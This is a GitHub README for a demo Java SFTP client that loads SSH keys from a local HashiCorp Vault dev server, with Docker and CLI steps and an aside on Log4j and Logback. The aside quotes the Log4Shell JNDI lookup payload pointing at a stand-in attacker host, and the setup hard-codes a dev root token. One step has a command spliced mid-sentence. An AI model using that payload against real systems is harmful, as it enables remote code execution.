

#### Info

this directory contains a replica of Hashicorp Vault Java Client (Bare) [se.jhaals:vault-java](https://github.com/jhaals/vault-java) (library is not officially published on Maven Central) Java implementation of the [Vault project](https://vaultproject.io/) HTTP API,  build locally, install and to use it in the small SFTP client loading private and public keys from Vault.

> NOTE the public key is never actually used locally, it is simply passed as argument required by the signature of the [method](https://commons.apache.org/proper/commons-vfs/commons-vfs2/apidocs/org/apache/commons/vfs2/provider/sftp/IdentityInfo.html)

There appears no plain java examples of how to integrate a Java application with HashiCorp Vault on [vendor repository](https://github.com/hashicorp) - only a Spring [one](https://github.com/hashicorp/hello-vault-spring/blob/main/sample-app/pom.xml)

### Usage

* Install the dependency (NOTE: skip the tests)

```
pushd vault-java; mvn -DskipTests package install; popd
```

* build the application
```sh
pushd app;  mvn clean package; popd
```

the steps to configure the Vault and `bootstrap.properties` are covered in [youtube video](https://youtu.be/MaTDiKp_IrA)

* pull the vendor image
```sh
export IMAGE=hashicorp/vault:2.0.0
docker pull $IMAGE
```
* run the image interactively, override the entry point, and exposing the default port, to execute vault commands in the foreground
```sh
NAME=vault-container
docker run --rm --name $NAME --entrypoint "" -p 8200:8200 -it $IMAGE sh
```
in the container run
```sh
vault -version
```
```text
Vault v1.18.2 (415e1fe3118eebd5df6cb60d13defdc01aa17b03), built 2022-11-23T12:53:46Z
```
* start dev server with options
```sh
TOKEN=c7e6d2f3-dc1a-a841-cf29-0cf7bec8ed42
export VAULT_TOKEN=$TOKEN
NAME=vault-container
vault server -dev -dev-listen-address=0.0.0.0:8200 -dev-root-token-id=$TOKEN
```
this will print to console
```text
Unseal Key: EiLAvK66x2sehBq6PM8lAJPHYzriM7Jy/W0PtgJtUJE=
Root Token: c7e6d2f3-dc1a-a841-cf29-0cf7bec8ed42

Development mode should NOT be used in production installations!
```
and leave it running in the foreground

```sh
docker ps
```
```text
CONTAINER ID   IMAGE                        COMMAND            CREATED          STATUS          PORTS                                         NAMES
a3c422450831        hashicorp/vault:2.0.0   "sh"                About a minute ago   Up About a minute   0.0.0.0:8200->8200/tcp   vault-container
```
put the sample data:
```sh
export VAULT_ADDR=http://127.0.0.1:8200/
export VAULT_TOKEN=c7e6d2f3-dc1a-a841-cf29-0cf7bec8ed42
NAME=vault-container
docker exec -e VAULT_TOKEN=$VAULT_TOKEN -e VAULT_ADDR=http://127.0.0.1:8200/ $NAME vault kv get secret/application
```
this will print
```text
No value found at secret/data/application
```
* If ddocker exec -e VAULT_TOKEN=$TOKEN -e VAULT_ADDR=http://127.0.0.1:8200/ $NAME vault kv put secret/application public_key="<SSH PUBLIC KEY>"evelopment machine is Linux save the ssh public key generated by SFTP server in the vault
```sh
docker exec -e VAULT_TOKEN=$TOKEN -e VAULT_ADDR=http://127.0.0.1:8200/ $NAME vault kv put secret/application public_key="$(cat ~/.ssh_keys/simple-sftp/sftpuser_key.pub)"
```
otherwise put a dummy ssh public key mockup there:
```sh
docker exec -e VAULT_TOKEN=$TOKEN -e VAULT_ADDR=http://127.0.0.1:8200/ $NAME vault kv put secret/application public_key="<SSH PUBLIC KEY>"
```
this will print
```text
===== Secret Path =====
secret/data/application

======= Metadata =======
Key                Value
---                -----
created_time       2026-05-17T15:36:19.427219926Z
custom_metadata    <nil>
deletion_time      n/a
destroyed          false
version            1

```
repeat
```sh
docker exec -e VAULT_TOKEN=$TOKEN -e VAULT_ADDR=http://127.0.0.1:8200/ $NAME vault kv get secret/application
```
```text
===== Secret Path =====
secret/data/application

======= Metadata =======
Key                Value
---                -----
created_time       2026-05-17T16:45:53.800619817Z
custom_metadata    <nil>
deletion_time      n/a
destroyed          false
version            2

======= Data =======
Key           Value
---           -----
public_key    ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK1Z10lDTa9ThKWzLedGHMnbCkbfNT6aaJz3X5nHVqiC
```
* print the data in JSON format
```sh
vault kv get -format=json secret/application| jq -r '.'
```
this will print
```json
{
  "request_id": "1f664a6b-2c51-5967-b1f8-b7fb3b404e4c",
  "lease_id": "",
  "lease_duration": 0,
  "renewable": false,
  "data": {
    "data": {
      "public_key": "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK1Z10lDTa9ThKWzLedGHMnbCkbfNT6aaJz3X5nHVqiC sftpuser@sftp-server"
    },
    "metadata": {
      "created_time": "2026-05-17T16:45:53.800619817Z",
      "custom_metadata": null,
      "deletion_time": "",
      "destroyed": false,
      "version": 2
    }
  },
  "warnings": null
}
```
alternatively create and observe via Vault Web UI:



run the application on development host

```sh
pushd app
java -cp target/vault-0.2.0-SNAPSHOT.jar:target/lib/* example.Application -token c7e6d2f3-dc1a-a841-cf29-0cf7bec8ed42 -server localhost -port 8200 -dir secret/data/application -key public_key  2>&1 |tee a.log
```
when run on Docker Toolbox update the command to
```cmd
java -cp target/vault-0.2.0-SNAPSHOT.jar;target\lib\* example.Application -token c7e6d2f3-dc1a-a841-cf29-0cf7bec8ed42 -server 192.168.99.100 -port 8200 -dir secret/data/application -key public_key
```
this will print
```text
key: public_key value: <SSH PUBLIC KEY>
```
```text
key: public_key value: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK1Z10lDTa9ThKWzLedGHMnbCkbfNT6aaJz3X5nHVqiC
```
---

### See Also:

   * another zero-dependency [Java client](https://jopenlibs.github.io/vault-java-drive) for the Vault
   * [HashiCorp Vault client library in C#](https://github.com/hashicorp/vault-client-dotnet)
  * __Hashicorp Vault__
     + [Getting Started with Vault](https://app.pluralsight.com/lti-integration/redirect/3134d6b5-8d8f-48fe-9251-b3ec443fa9f5)(qwicklab)

     + [Managing Vault Tokens](https://app.pluralsight.com/lti-integration/redirect/adb24492-f4c6-4417-baab-50e212f1522e)(qwicklab)

     + [Interacting with Vault Policies](https://app.pluralsight.com/lti-integration/redirect/382af62b-8ffd-45ce-954c-3f27ae116189)(qwicklab)

     + [Authentication, Authorization, and Identity with Vault](https://app.pluralsight.com/lti-integration/redirect/4152971b-ee4e-4f56-bc6d-5055197e2b4a)(qwicklab)

     + [Creating Dynamic Secrets for Google Cloud with Vault](https://app.pluralsight.com/lti-integration/redirect/eb4f5638-7458-4b95-95ef-23067291c0af)(qwicklab) `GSP1007`

  * [An Intro to Vault](https://www.baeldung.com/vault)


### Unrelated

Because modern systems are full of unavoidable “boundary crossings” between:

  * protected memory
  * kernel memory
  * user memory
  * encrypted storage
  * network buffers
  * DMA/device memory
  * containers/VMs
  * secure enclaves
  * language runtimes

And every boundary crossing eventually becomes:

“copy bytes from A to B safely.”

That sounds trivial, but in systems programming it is one of the hardest things to do perfectly at scale.

Logback was created by Ceki Gülcü — the original author of Log4j.

So it was not:

"totally different competing project"

It was more:

"second-generation redesign after limitations of Log4j 1.x became apparent."

That is why many people historically described it as:

  * *Log4j done properly*
  * *Log4j evolved*
  * *what Log4j 2 should have been*


fundamentally, __Logback__ was not vulnerable in the same architectural way as the infamous Log4Shell vulnerability in Log4j 2.x.

That is one reason many engineers later said:

*Logback accidentally avoided an entire class of disaster*

roughly: `${jndi:ldap://attacker/...}` inside logged data could trigger remote lookups.

That crossed several boundaries at once:

  * logging
  * naming services
  * remote loading
  * string templating
  * runtime evaluation

The ecosystem later realized: *Why was a logger capable of doing this at all?*


### Author
[Serguei Kouzmine](kouzmine_serguei@yahoo.com)
